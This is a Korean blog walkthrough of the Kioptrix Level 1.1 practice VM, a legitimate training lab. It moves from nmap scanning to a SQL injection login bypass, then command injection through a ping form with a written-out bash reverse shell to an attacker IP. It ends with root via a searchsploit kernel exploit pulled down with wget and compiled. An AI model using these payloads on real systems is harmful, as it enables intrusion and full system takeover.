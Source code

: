 ```yaml
---
layout: post
title: '[해킹 기초] 16. Kioprix_Level 1.1'
date: '2023-01-13 11:59:10 +0900'
description: 'Kioprix_Level 1.1'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: True
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>

### <b>■ Kioprix_Level 1.1</b>
- [실습 환경]
    - Virtual Box(Kali Linux) - 공격자
    - Kioprix_Level 1.1 - 공격대상

- [공격 목표]
    - root 쉘 획득

- [공격 순서]
    1. nmap을 이용해 공격 대상 IP 확인.
    2. port 스캔.
    3. 취약점 조사.
    4. 취약점을 이용해 쉘 획득.

<hr>
### <b>■ 1. nmap을 이용해 공격 대상 IP 확인</b>
<img src="/assets/img/hacking/part2-10/1.png" alt="표사진"><br>
nmap을 이용해 범위 내에서 포트가 열려있는 장비들을 출력해 공격 대상 IP를 확인한다.
<hr>
### <b>■ 2. port 스캔.</b>
<img src="/assets/img/hacking/part2-10/2.png" alt="표사진"><br>
공격 대상 IP를 찾았으면 더 상세한 정보를 얻기 위해 위와 같은 명령어를 이용해 상세 정보를 result.txt 파일로 만든다.
<hr>
<img src="/assets/img/hacking/part2-10/3.png" alt="표사진"><br>
result.txt 파일을 확인 해 보면 위와 같이 열려있는 port 목록을 볼 수 있다. 여기서 80번 port가 열려있다고 나와있으니 웹에서 해당 페이지를 열어보자.
<hr>
### <b>■ 3. 취약점 조사.</b>
<img src="/assets/img/hacking/part2-10/4.png" alt="표사진"><br>
웹을 열어 해당 IP로 들어가보니 역시 80번 port가 열려있고 위와 같은 웹 페이지를 확인할 수 있었다.
<hr>
<img src="/assets/img/hacking/part2-10/5.png" alt="표사진"><br>
바로 sql injection을 수행 했다. Username:admin' or '1'='1 | Password:1234
<hr>
<img src="/assets/img/hacking/part2-10/6.png" alt="표사진"><br>
sql injection을 수행하니 로그인이 잘 되어 위와 같은 페이지가 나왔다. 웹 상에서 ping을 해주는 사이트 같은데 8.8.8.8을 넣고 submit을 눌렀다.
<hr>
<img src="/assets/img/hacking/part2-10/7.png" alt="표사진"><br>
역시 ping을 보내주고 그 결과 값을 웹 상에 표시해준다. bash shell에서 reverse shell을 연결해주는 명령어를 이용하면 이 취약점을 공격할 수 있을 거 같다.
<hr>
<img src="/assets/img/hacking/part2-10/8.png" alt="표사진"><br>
reverse shell을 하기 전에 공격자 PC에서 7777번 port를 열어준다.
<hr>
<img src="/assets/img/hacking/part2-10/9.png" alt="표사진"><br>
열어준 다음 다시 웹 페이지에 가서 위와 같이 입력한다. 
<br>bash -i >& /dev/tcp/[공격자 IP]/7777 0>&1 이 명령어는 reverse shell을 요청하는 Bash 명령어이다.
<hr>
<img src="/assets/img/hacking/part2-10/10.png" alt="표사진"><br>
다시 공격자 PC에 가면 위와 같이 피해자 PC shell을 탈취한 것을 볼 수 있다. 하지만 id를 입력해보면 root가 아닌 apache user로 접속되어 있다. 우리의 목표는 root 권한을 획득하는 것이다. 따라서 해당 운영체제의 취약점을 확인하기 위해서 uname -r을 이용해 해당 버전을 확인해 보자. 피해자 PC는 linux 2.6.9-55.EL을 사용하는 것을 확인할 수 있다.
<hr>
<img src="/assets/img/hacking/part2-10/11.png" alt="표사진"><br>
root 권한을 획득하기 위해서 searchsploit를 이용해 위에서 확인한 운영체제의 권한 상승 취약점을 확인해 봤다. 우리는 9545.C 파일을 이용해 권한 상승 공격을 할 것이다.
<hr>
<img src="/assets/img/hacking/part2-10/12.png" alt="표사진"><br>
9545.C 파일을 찾아서 /var/www/html로 옮긴다. 이 경로로 옮기는 이유는 피해자 PC에서 해당 파일을 다운로드해 실행시켜야 되기 때문이다. 옮겨주고 chmod를 이용해 권한을 주자.
<hr>
<img src="/assets/img/hacking/part2-10/13.png" alt="표사진"><br>
다시 피해자 PC shell로 이동한 다음 wget을 이용해 9545.c 파일을 다운받자. 다운받은 다음 gcc를 이용해 컴파일 한 다음 해당 파일을 실행 시키면 위와 같이 root 권한을 탈취한 것을 확인할 수 있다. 이것으로 Kioprix_Level 1.1의 목표인 root 권한을 획득했다.
<hr>

